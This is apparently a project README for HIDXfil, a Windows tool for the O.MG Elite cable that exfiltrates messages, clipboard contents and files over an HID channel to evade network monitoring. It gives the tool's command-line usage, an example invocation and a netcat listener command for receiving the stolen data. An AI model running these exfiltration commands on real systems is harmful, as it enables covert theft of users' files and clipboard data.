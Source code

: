# HIDXfil
**HIDXfil** is a tool designed to exfiltrate data through a Human Interface Device (HID). This can be useful for scenarios where traditional network-based exfiltration methods are restricted or monitored. This tool can send messages, clipboard content, or whole files to a specified USB device using its Vendor ID (VID) and Product ID (PID). **HIDXfil** is designed to work with HIDX StealthLink, a feature for [O.MG Elite devices](https://shop.hak5.org/collections/mischief-gadgets).

## Usage
The Usage of the provided project is pretty much self explanatory.
After successfully compiling the project, the binary can simply be used on a Windows Target system. 
```
 _   _ _____________   __  _____ _             _ _   _       _     _       _
| | | |_   _|  _  \ \ / / /  ___| |           | | | | |     | |   (_)     | |
| |_| | | | | | | |\ V /  \ `--.| |_ ___  __ _| | |_| |__   | |    _ _ __ | | __
|  _  | | | | | | |/   \   `--. \ __/ _ \/ _` | | __| '_ \  | |   | | '_ \| |/ /
| | | |_| |_| |/ // /^\ \ /\__/ / ||  __/ (_| | | |_| | | | | |___| | | | |   <
\_| |_/\___/|___/ \/   \/ \____/ \__\___|\__,_|_|\__|_| |_| \_____/_|_| |_|_|\_\

HID-Based Exfiltration Tool by Ø1phor1³

Usage: HIDXfil.exe /message <Message> /clipboard /vid <VendorID> /pid <ProductID> /chunksize <chunksize> /file <filepath>

Parameters:
  /message:   Specify the message to exfiltrate
  /clipboard: Exfiltrate the Users clipboard content
  /file:      Specify the file path to exfiltrate
  /vid:       Specify the Vendor ID of the target device (Optional - Default:D3C0)
  /pid:       Specify the Product ID of the target device (Optional - Default:D34D)
  /chunksize: Specify the chunk size for data transfer (Optional - Default:8)

Example: HIDXfil.exe /message "Hello World" /vid D3C0 /pid D34D /chunksize 8
```
A chunksize of 8 was set to ensure the best results. Changing this value may result in missing data and corrupted files.
Generally, any TCP Listener can be used to retreive the data sent by the O.MG device. 

Netcat may be your first choice: `nc -lvnp <port> / nc -lvnp <port> > example.file`

## Disclaimer
By using the provided code, you agree to the following terms:

1.  **No Warranty**: This code is provided "as is" without warranty of any kind, express or implied. The creator does not warrant that the provided code will be error-free or will meet your requirements or expectations.
    
2.  **Use at Your Own Risk**: You are solely responsible for the use of this code. The creator is not responsible for any damage, loss, or issues that may arise from using this script, including but not limited to loss of data, system malfunctions, or security vulnerabilities.
    
3.  **Compliance with Laws**: You agree to use this script in compliance with all applicable local, state, national, and international laws and regulations. The creator is not responsible for any illegal or unauthorized use of this code.
    
4.  **No Liability**: The creator shall not be liable for any direct, indirect, incidental, special, exemplary, or consequential damages.

By using this code, you acknowledge that you have read and understood this disclaimer and agree to be bound by its terms.
